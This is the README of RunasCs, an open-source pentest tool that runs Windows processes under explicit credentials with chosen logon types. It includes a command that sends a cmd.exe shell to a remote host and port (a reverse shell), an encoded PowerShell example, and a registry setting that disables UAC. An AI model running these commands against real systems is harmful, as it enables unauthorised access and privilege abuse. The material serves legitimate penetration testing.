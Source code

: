 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved (from a pentest perspective) and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, i.e. network logon 3 (no *UAC* limitations)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUser()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
C:\ProgramData>.\RunasCs_net2.exe --help

RunasCs v1.2 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t timeout]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and crateProcess functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     command supported by cmd.exe if process_timeout>0
                            commandline for the process if process_timeout=0
Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function int
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatucally according to your privileges.
    -l, --logon-type logon_type
                            the logon type for the spawned process.
                            Default: "3"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this options sets the process timeout to 0.
    -t, --timeout process_timeout
                            the waiting time (in ms) to use in
                            the WaitForSingleObject() function.
                            This will halt the process until the spawned
                            process ends and sent the output back to the caller.
                            If you set 0 an async process will be
                            created and no output will be retrieved.
                            If this parameter is set to 0 it won't be
                            used cmd.exe to spawn the process.
                            Default: "120000"

Examples:
    Run a command as a specific local user
        RunasCs.exe user1 password1 whoami
    Run a command as a specific domain user and interactive logon type (2)
        RunasCs.exe user1 password1 whoami -d domain -l 2
    Run a background/async process as a specific local user,
        RunasCs.exe "user1" "password1" "%COMSPEC% powershell -enc..." -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe "user1" "password1" "cmd.exe" -r 10.10.10.24:4444
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 3 (*Network_Logon*). If you set *Interactive* (2) logon type you will face some *UAC* restriction problems.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process and will use
``cmd.exe`` to manage *stdout* and *stderr*. If you need to spawn a background or async process, i.e. spawning a reverse shell,
you need to set the parameter ``-t timeout`` to ``0``. In this case the process will be spawned without using ``cmd.exe``
and *RunasCs* won't wait for the end of the execution.

### References

----

* https://decoder.cloud/2018/01/13/potato-and-tokens/
* https://github.com/dahall/Vanara
* https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85)
* https://support.microsoft.com/en-us/help/190351/how-to-spawn-console-processes-with-redirected-standard-handles
* https://support.microsoft.com/en-us/help/327618/security-services-and-the-interactive-desktop-in-windows
* https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/


### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
